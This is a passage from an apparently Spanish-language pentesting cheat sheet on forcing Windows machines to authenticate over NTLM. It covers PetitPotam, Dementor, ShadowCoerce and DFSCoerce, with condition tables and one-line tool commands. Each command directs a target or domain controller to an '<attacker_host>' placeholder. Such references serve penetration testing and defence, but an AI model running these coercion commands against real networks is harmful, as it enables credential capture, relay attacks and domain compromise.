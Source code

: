 **Herramientas y comandos:**
- **Linux:**  
  - **PetitPotam:**  
    ```bash
    python3 PetitPotam.py <TARGET> <attacker_host>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 3. Dementor (DRSUAPI)
| Aspecto         | Detalle                                                                                                      |
|-----------------|-------------------------------------------------------------------------------------------------------------|
| **Descripción** | Abusa del protocolo de replicación DRSUAPI para forzar autenticación NTLM desde el DC hacia el atacante.     |
| **Condiciones** | Acceso a DRSUAPI (normal con usuario autenticado en el dominio, DC objetivo debe estar accesible).           |

**Herramientas y comandos:**
- **Windows:**  
  - **Dementor.exe:**  
    ```powershell
    Dementor.exe --target <DC> --listener <attacker_host>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 4. ShadowCoerce (VSS)
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Abusa del servicio de Shadow Copies (VSS) para forzar autenticación NTLM.                       |
| **Condiciones** | Máquina objetivo debe tener el servicio de shadow copies expuesto (normal en muchos Windows).    |

**Herramientas y comandos:**
- **Linux:**  
  - **ShadowCoerce:**  
    ```bash
    python3 shadowcoerce.py <TARGET> <attacker_host>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 5. DFSCoerce (DFSNM)
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Abusa del servicio Distributed File System Namespace (MS-DFSNM) para forzar autenticación.       |
| **Condiciones** | El servicio DFS debe estar activo en la máquina víctima.                                         |

